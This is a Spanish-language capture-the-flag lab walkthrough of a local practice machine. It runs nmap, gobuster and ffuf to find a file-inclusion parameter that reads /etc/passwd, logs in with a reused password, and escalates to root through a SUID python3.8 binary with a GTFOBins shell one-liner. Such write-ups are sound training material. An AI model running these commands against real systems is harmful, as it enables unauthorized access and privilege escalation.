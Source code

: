 nmap:  22,80

![image](https://github.com/user-attachments/assets/eaad09c8-5a05-446f-96cb-e8c76e63dd4f)

en la pagina como en el nmap, vemos que es apache2, en el código fuente no hay nada, hacemos un gobuster

     gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,py,txt -t 64


y nos da in index.php

![image](https://github.com/user-attachments/assets/31191b22-876a-44d3-8876-3e596b67f795)

![image](https://github.com/user-attachments/assets/6ff70d6f-697d-4666-90f8-355f6bbe8d46)

buscamos eso y da solo en la pagina un "balu"

![image](https://github.com/user-attachments/assets/fed9b04c-c1b9-48ad-a9b4-bf5ad959017d)

probé con hydra pero no obtuve nada. Como la carpeta o directorio que nos dio, podemos probar con ffuf

     ffuf -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

y nos dio un: page

![image](https://github.com/user-attachments/assets/030a13f1-9264-48ee-a294-ac3b02cebad3)

y obtenemos

![image](https://github.com/user-attachments/assets/6b8483b6-54ab-4e9d-a79b-f37136262969)

nos dan dos usuarios: pinguino y mario. probamos a los usuarios con la contraseña "balu"

entramos

![image](https://github.com/user-attachments/assets/6e168484-ed12-487a-b28a-a379ec8e0a4b)

y escalamos a mario muy facil

![image](https://github.com/user-attachments/assets/5e88059d-1d92-4c99-b3f9-d1f2bb135098)

utilizamos el comando

     find / -perm -4000 -ls 2>/dev/null

y nos da un binario importante 

![image](https://github.com/user-attachments/assets/dcda9d1d-36af-4c7b-9321-a1eaa8fdbbd9)

la buscamos en https://gtfobins.github.io/gtfobins/python/#sudo

![image](https://github.com/user-attachments/assets/801624b3-5d4e-41b3-9aeb-8e6df74b59f5)

modificamos el python a python3.8 como el binario y lanzamos

     python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![image](https://github.com/user-attachments/assets/1c611e03-21bb-441c-9bb4-87460a6903b5)

somos root!
